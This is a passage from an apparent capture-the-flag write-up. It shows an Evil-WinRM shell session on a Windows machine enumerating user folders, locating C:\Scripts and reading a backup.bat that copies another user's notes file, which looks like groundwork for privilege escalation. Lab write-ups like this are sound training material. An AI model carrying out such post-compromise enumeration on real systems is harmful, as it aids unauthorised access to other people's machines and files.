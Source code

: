 <br>
<br>
<br>
<p align="center">Users: Administrator, j.smith, o.armstrong and Public.</p>

```bash

*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/30/2025   7:29 PM                Administrator
d-----        5/30/2023   2:29 AM                j.smith
d-----        5/30/2023   1:31 AM                o.armstrong
d-r---       12/12/2018   7:45 AM                Public


*Evil-WinRM* PS C:\Users>
```

<p align="center">Identified /Scripts.</p>

```bash
*Evil-WinRM* PS C:\Users\j.smith\Documents> dir C:\


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/14/2018   6:56 AM                EFI
d-----        5/13/2020   5:58 PM                PerfLogs
d-r---       11/14/2018   4:10 PM                Program Files
d-----        3/11/2021   7:29 AM                Program Files (x86)
d-----        5/30/2023   1:32 AM                Scripts
d-r---        5/30/2023   2:29 AM                Users
d-----        5/30/2023   1:17 AM                Windows
```

<p align="center">Identified backup.bat and checked its content.</p>

```bash
*Evil-WinRM* PS C:\Users\j.smith\Documents> dir C:\Scripts


    Directory: C:\Scripts


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/30/2023   1:32 AM             92 backup.bat


*Evil-WinRM* PS C:\Users\j.smith\Documents> cat C:\Scripts\backup.bat
copy C:\Users\o.armstrong\Desktop\notes.txt C:\Users\o.armstrong\Documents\backup_notes.txt
```
